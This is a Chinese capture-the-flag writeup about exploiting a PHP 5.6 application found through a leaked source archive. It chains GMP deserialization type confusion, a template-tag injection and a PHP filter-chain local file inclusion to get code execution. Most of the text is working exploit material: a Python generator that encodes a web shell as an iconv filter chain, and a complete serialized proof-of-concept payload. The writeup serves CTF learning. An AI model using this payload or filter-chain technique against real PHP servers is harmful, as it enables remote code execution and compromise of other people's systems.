



## 题目writeup：

发现存在源码泄露www.zip，下载源码进行审计。发现应用了GMP库运算。



考虑到目标系统采用了php5.6.9。且存在反序列点，可以借助反序列化进行类型混淆。同时发现存在eval和正则过滤。



发现没有禁止require，联想到裸文件LFI，脚本如下：

```python
import requests

#参数file
url = "http://192.168.190.191/index.php"
file_to_use = "/etc/passwd"
command = "whoami"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"
```

之后，再结合反序列化构造POC：

```
a:1:{i:0;C:3:"GMP":4148:{s:1:"1";a:2:{s:4:"head";s:4073:"}{pboot:if((require/**/("php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd"))/**/)}123321suanve{/pboot:if}";i:0;O:12:"DateInterval":1:{s:1:"y";R:2;}}}}
```

最终base64发包反序列化，获得flag

